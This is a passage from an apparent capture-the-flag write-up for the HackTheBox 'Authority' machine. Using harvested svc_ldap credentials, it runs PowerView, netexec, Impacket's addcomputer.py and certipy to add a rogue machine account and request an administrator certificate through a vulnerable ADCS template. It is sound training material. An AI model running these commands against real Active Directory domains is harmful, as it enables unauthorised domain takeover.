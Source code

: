 The setting that allows a user to add a computer to the domain is the `ms-ds-
machineaccountquota`. On Authority, I can query this with
[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1):

    
    
    *Evil-WinRM* PS C:\programdata> upload /opt/PowerSploit/Recon/PowerView.ps1
    Info: Uploading /opt/PowerSploit/Recon/PowerView.ps1 to C:\programdata\PowerView.ps1
    
                                                                 
    Data: 1027036 bytes of 1027036 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
    *Evil-WinRM* PS C:\programdata> Get-DomainObject -Identity 'DC=AUTHORITY,DC=HTB' | select ms-ds-machineaccountquota
    
    ms-ds-machineaccountquota
    -------------------------
                           10
    

`netexec` will also do this from my VM:

    
    
    oxdf@hacky$ netexec ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M MAQ
    SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
    LDAPS       10.10.11.222    636    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
    MAQ         10.10.11.222    389    AUTHORITY        [*] Getting the MachineAccountQuota
    MAQ         10.10.11.222    389    AUTHORITY        MachineAccountQuota: 10
    

Now I can add the computer with `addcomputer.py`:

    
    
    oxdf@hacky$ addcomputer.py 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method LDAPS -computer-name 0xdf -computer-pass 0xdf0xdf0xdf -dc-ip 10.10.11.222
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra
    
    [*] Successfully added machine account 0xdf$ with password 0xdf0xdf0xdf.
    

#### Create Certificate

With the computer account on the domain, now `certipy` will create the
certificate with the following options:

  * `req` \- request a certificate
  * `-username '0xdf$' -password 0xdf0xdf0xdf` \- auth as the computer account created above
  * `-ca AUTHORITY-CA` \- the certificate authority associated with the ADCS
  * `-dc-ip 10.10.11.222` \- the IP of the DC
  * `-template CorpVPN` \- the name of the vulnerable template
  * `-upn administrator@authority.htb` \- the user requesting the certificate for
  * `-dns authority.htb` \- the DNS server to use in this request

The result is a certificate plus private key saved in
`administrator_authority.pfx`:
